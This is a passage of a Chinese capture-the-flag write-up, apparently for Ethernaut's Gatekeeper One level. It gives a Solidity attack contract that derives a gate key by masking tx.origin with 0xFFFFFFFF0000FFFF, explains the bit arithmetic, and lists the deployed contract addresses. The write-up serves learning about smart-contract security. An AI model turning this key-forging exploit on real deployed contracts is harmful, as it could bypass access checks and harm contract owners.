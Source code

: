 所以我们可以整理思路，编写智能合约了。

## 攻击合约编写
我们同样在remix里编写攻击合约。如下：

```
pragma solidity ^0.6.0;

interface Gate {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract attackerSupporter {

    uint64 offset = 0xFFFFFFFF0000FFFF;
    bytes8 changedValue;
    Gate gateImpl;

    constructor(address addr) public {
        gateImpl = Gate(addr);
    }

    function getAddress() public {
        changedValue = bytes8(uint64(tx.origin) & offset);
    }

    function check1() public view returns (bool){
        return uint32(uint64(changedValue)) == uint16(uint64(changedValue));
    }

    function check2() public view returns (bool){
        return uint32(uint64(changedValue)) != uint64(changedValue);
    }

    function check3() public view returns (bool){
        return uint32(uint64(changedValue)) == uint16(tx.origin);
    }

    function attack() public {
        gateImpl.enter(changedValue);
    }
}
```

这里主要看为什么能够解决`gateThree`的需求。当获取输入的时候，会进行`bytes8(uint64(tx.origin) & offset)`运算。

- `address`类型长度为160位，20字节，40个十六进制
- `uint64(tx.origin)`对`tx.origin`进行了截取，选取后64位，8字节，16十六进制。
- `offset`类型为`uint64`，默认值为`0xFFFFFFFF0000FFFF`，最后的`FFFF`保证其最后16位不发生改变，中间的`0000`保证17-33位为0,剩下的`FFFFFFFF`则保证34-64位不全为0（只要`tx.origin`不是这样就好）。
- 通过`&`运算完成变换，以`bytes8`存储在`changedValue`变量，用以实际攻击。

## 合约交互
部署合约，传入目标合约`0xBc0820c5Ab83Ab2E8e97Fa04DDd3444ECC212284`，构建合约的地址为`0x9CeD0A7587C4dCb17F6213Ea47842c86a88ff43d`。
